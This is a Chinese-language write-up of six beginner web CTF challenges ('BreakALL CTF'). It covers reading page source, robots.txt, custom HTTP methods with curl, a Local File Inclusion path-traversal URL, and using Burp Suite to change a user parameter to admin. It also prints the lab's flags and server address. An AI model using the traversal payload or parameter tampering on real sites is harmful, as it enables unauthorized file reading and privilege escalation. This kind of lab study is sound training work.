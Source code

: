 <br />

# CTF:Web101

<br /><br />


============================================

Web-1:source code<br /><br />
--------------------------------------------

右鍵>檢查原始碼或者F12
```

<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">

    <meta name="description" content="">
    <meta name="author" content="">
    <link rel="icon" href="images/favicon.ico">

    <title>BreakALL CTF</title>

    <link href="css/bootstrap.min.css" rel="stylesheet">

    <link href="css/signin.css" rel="stylesheet">
  </head>

  <body>

    <div class="container">

      <form class="form-signin"  method="post" action="index.html">
        <h3 class="form-signin-heading">BreakALL CTF</h3>
        <input type="text" id="inputUsername" class="form-control" name="name" placeholder="Username" >

        <input type="password" id="inputPassword" class="form-control" name="pw" placeholder="Password">
		
        <button class="btn btn-lg btn-primary btn-block" type="submit">登入</button>
	
      </form>

    </div> 

	<!-- BreakALLCTF{3xjVYR8dMetWQbwzYsLJ} -->

    <script src="js/ie10-viewport-bug-workaround.js"></script>
  </body>
</html>
```

<br />

============================================

web-2:Robots.txt<br /><br />
--------------------------------------------
網址後面加/robots.txt
```
120.114.62.89:2001/robots.txt
```

<br />
result:

```
User-agent: *
Disallow: /images
Disallow: /secret
```

所以就是120.114.62.89:2001/secret啦!<br />
找到flag.txt!<br />

![](https://github.com/zinwang/CTF_write_ups/blob/master/writes_up/Web/pics/2018-05-21%2021-16-17%20%E7%9A%84%E8%9E%A2%E5%B9%95%E6%93%B7%E5%9C%96.png)

<br />





是一串16進位<br />

```
516e4a6c595774425445784456455a374e31463053304979546a5655624846425155563651334a36546b3939
```

轉成字串後是一串base64<br />

```
QnJlYWtBTExDVEZ7N1F0S0IyTjVUbHFBQUV6Q3J6Tk99
```

base64解碼<br />
答案出來了!<br />



============================================

web-3:Curl-1<br /><br />
--------------------------------------------

在GO按鈕的地方按右鍵>Copy Link Location

![](https://github.com/zinwang/CTF_write_ups/blob/master/writes_up/Web/pics/%E8%9E%A2%E5%B9%95%E6%93%B7%E5%8F%96%E7%95%AB%E9%9D%A2%20(188).png)

<br />

使用curl

```
curl http://120.114.62.89:2014/index.php
```





<br />



============================================

web-4:HTTP method<br /><br />
--------------------------------------------
[https://zh.wikipedia.org/wiki/%E8%B6%85%E6%96%87%E6%9C%AC%E4%BC%A0%E8%BE%93%E5%8D%8F%E8%AE%AE#%E8%AF%B7%E6%B1%82%E6%96%B9%E6%B3%95](https://zh.wikipedia.org/wiki/%E8%B6%85%E6%96%87%E6%9C%AC%E4%BC%A0%E8%BE%93%E5%8D%8F%E8%AE%AE#%E8%AF%B7%E6%B1%82%E6%96%B9%E6%B3%95)

利用curl:
```
curl -X GETFLAG -v http://120.114.62.89:3001/index.php
```

```
*   Trying 120.114.62.89...
* Connected to 120.114.62.89 (120.114.62.89) port 3001 (#0)
> GETFLAG /index.php HTTP/1.1
> Host: 120.114.62.89:3001
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Fri, 25 May 2018 01:29:23 GMT
< Server: Apache/2.4.7 (Ubuntu)
< X-Powered-By: PHP/5.5.9-1ubuntu4.22
< Content-Length: 33
< Content-Type: text/html
< 
* Connection #0 to host 120.114.62.89 left intact
BreakALLCTF{fzfaD1jdXyQAMWvRShGC}
```






============================================

web-5:Local File Inclusion<br /><br />
--------------------------------------------

LFI(Local File Inclusion):
[https://en.wikipedia.org/wiki/File_inclusion_vulnerability](https://en.wikipedia.org/wiki/File_inclusion_vulnerability)

```
http://120.114.62.89:2003/index.php?page=../../../../flag
```




<BR />


============================================

Web-6:Burp Suite<br /><br />
--------------------------------------------

1.首先設定瀏覽器proxy<br />
Preferences>Advanced>Network>Settings

![](https://github.com/zinwang/CTF_write_ups/blob/master/writes_up/Web/pics/2018-05-21%2020-56-14%20%E7%9A%84%E8%9E%A2%E5%B9%95%E6%93%B7%E5%9C%96.png)

![](https://github.com/zinwang/CTF_write_ups/blob/master/writes_up/Web/pics/2018-05-21%2020-56-28%20%E7%9A%84%E8%9E%A2%E5%B9%95%E6%93%B7%E5%9C%96.png)

<br />
2.確認Intercept is off
<br />
3.隨意輸入帳號密碼

![](https://github.com/zinwang/CTF_write_ups/blob/master/writes_up/Web/pics/2018-05-21%2020-58-48%20%E7%9A%84%E8%9E%A2%E5%B9%95%E6%93%B7%E5%9C%96.png)

![](https://github.com/zinwang/CTF_write_ups/blob/master/writes_up/Web/pics/2018-05-21%2020-58-57%20%E7%9A%84%E8%9E%A2%E5%B9%95%E6%93%B7%E5%9C%96.png)

<br />

4.開啟Intercept

![](https://github.com/zinwang/CTF_write_ups/blob/master/writes_up/Web/pics/%E8%9E%A2%E5%B9%95%E6%93%B7%E5%8F%96%E7%95%AB%E9%9D%A2%20(189).png)


<br />



5.Burp Suite
<br />
在POST發現東西了!
<br />
右鍵>Sent to Repeater

![](https://github.com/zinwang/CTF_write_ups/blob/master/writes_up/Web/pics/%E8%9E%A2%E5%B9%95%E6%93%B7%E5%8F%96%E7%95%AB%E9%9D%A2%20(186).png)

<br />
6.修改user變成admin
<br />

![](https://github.com/zinwang/CTF_write_ups/blob/master/writes_up/Web/pics/2018-05-21%2021-00-59%20%E7%9A%84%E8%9E%A2%E5%B9%95%E6%93%B7%E5%9C%96.png)

![](https://github.com/zinwang/CTF_write_ups/blob/master/writes_up/Web/pics/2018-05-21%2021-01-17%20%E7%9A%84%E8%9E%A2%E5%B9%95%E6%93%B7%E5%9C%96.png)

<br />
7.flag!

![](https://github.com/zinwang/CTF_write_ups/blob/master/writes_up/Web/pics/2018-05-21%2021-01-28%20%E7%9A%84%E8%9E%A2%E5%B9%95%E6%93%B7%E5%9C%96.png)

<br /><br />




